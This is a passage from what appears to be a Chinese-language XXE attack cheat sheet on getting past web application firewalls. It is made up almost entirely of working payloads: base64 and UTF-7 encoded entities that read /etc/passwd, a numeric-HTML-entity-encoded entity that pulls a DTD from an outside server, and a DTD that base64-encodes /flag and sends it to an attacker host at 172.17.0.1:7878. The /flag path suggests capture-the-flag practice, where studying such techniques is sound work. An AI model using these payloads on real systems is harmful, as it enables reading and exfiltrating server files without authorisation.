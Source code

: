 ### [WAF & Protections Bypasses](#toc_waf-protections-bypasses)

#### [Base64](#toc_base64)

```plain
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

该 payload 只有当 XML 服务器接受 data://协议是才会生效

#### [**UTF-7**](#toc_utf-7)

```plain
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<stockCheck><productId>&example;</productId><storeId>1</storeId></stockCheck>-
```

当使用 UTF-7 编码时：

```plain
<!xml version="1.0" encoding="UTF-7"?-->
+ADw-+ACE-DOCTYPE+ACA-foo+ACA-+AFs-+ADw-+ACE-ENTITY+ACA-example+ACA-SYSTEM+ACA-+ACI-/etc/passwd+ACI-+AD4-+ACA-+AF0-+AD4-+AAo-+ADw-stockCheck+AD4-+ADw-productId+AD4-+ACY-example+ADs-+ADw-/productId+AD4-+ADw-storeId+AD4-1+ADw-/storeId+AD4-+ADw-/stockCheck+AD4-
```

#### [File:/ Protocol Bypass](#toc_file-protocol-bypass)

如果目标网页使用的是 PHP，可以使用 php 包装器 `php://filter/convert.base64-encode/resource=` 来访问内部文件而不需要再使用 file:/ 协议。

如果是 Java 的网页，可以使用 `jar:protocol`。

#### [HTML 实体](#toc_html)

您可以在用 html 实体编码的实体内创建一个实体，然后调用它来加载 dtd。  
请注意，使用的 HTML 实体需要是数字

```plain
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x25;&#x64;&#x74;&#x64;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x3E;" >%a;%dtd;]>
<data>
    <env>&exfil;</env>
</data>
```

DTD 示例：

```plain
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://172.17.0.1:7878/bypass.xml?%data;'>">
%abt;
%exfil;
```
